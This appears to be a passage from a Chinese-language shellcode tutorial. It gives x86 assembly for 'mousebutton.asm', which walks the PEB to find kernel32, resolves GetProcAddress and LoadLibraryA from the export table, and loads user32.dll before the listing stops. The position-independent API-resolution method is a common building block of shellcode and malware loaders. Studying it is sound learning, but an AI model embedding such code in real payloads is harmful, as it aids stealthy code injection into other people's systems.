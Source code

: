 ### 实验结果
- 现在我们把所有的部分串在一起，最终版的shellcode如下：

文件地址：[./code/mousebutton.asm]
```
xor ecx, ecx
mov eax, fs:[ecx + 0x30] ; EAX = PEB
mov eax, [eax + 0xc]     ; EAX = PEB->Ldr
mov esi, [eax + 0x14]    ; ESI = PEB->Ldr.InMemOrder
lodsd                    ; EAX = Second module
xchg eax, esi            ; EAX = ESI, ESI = EAX
lodsd                    ; EAX = Third(kernel32)
mov ebx, [eax + 0x10]    ; EBX = Base address
mov edx, [ebx + 0x3c]    ; EDX = DOS->e_lfanew
add edx, ebx             ; EDX = PE Header
mov edx, [edx + 0x78]    ; EDX = Offset export table
add edx, ebx             ; EDX = Export table
mov esi, [edx + 0x20]    ; ESI = Offset namestable
add esi, ebx             ; ESI = Names table
xor ecx, ecx             ; EXC = 0

Get_Function:

inc ecx                              ; Increment the ordinal
lodsd                                ; Get name offset
add eax, ebx                         ; Get function name
cmp dword ptr[eax], 0x50746547       ; GetP
jnz Get_Function
cmp dword ptr[eax + 0x4], 0x41636f72 ; rocA
jnz Get_Function
cmp dword ptr[eax + 0x8], 0x65726464 ; ddre
jnz Get_Function
mov esi, [edx + 0x24]                ; ESI = Offset ordinals
add esi, ebx                         ; ESI = Ordinals table
mov cx, [esi + ecx * 2]              ; Number of function
dec ecx
mov esi, [edx + 0x1c]                ; Offset address table
add esi, ebx                         ; ESI = Address table
mov edx, [esi + ecx * 4]             ; EDX = Pointer(offset)
add edx, ebx                         ; EDX = GetProcAddress

xor ecx, ecx    ; ECX = 0
push ebx        ; Kernel32 base address
push edx        ; GetProcAddress
push ecx        ; 0
push 0x41797261 ; aryA
push 0x7262694c ; Libr
push 0x64616f4c ; Load
push esp        ; "LoadLibrary"
push ebx        ; Kernel32 base address
call edx        ; GetProcAddress(LL)

add esp, 0xc    ; pop "LoadLibrary"
pop ecx         ; ECX = 0
push eax        ; EAX = LoadLibrary
push ecx
mov cx, 0x6c6c  ; ll
push ecx
push 0x642e3233 ; 32.d
push 0x72657375 ; user
push esp        ; "user32.dll"
call eax        ; LoadLibrary("user32.dll")

```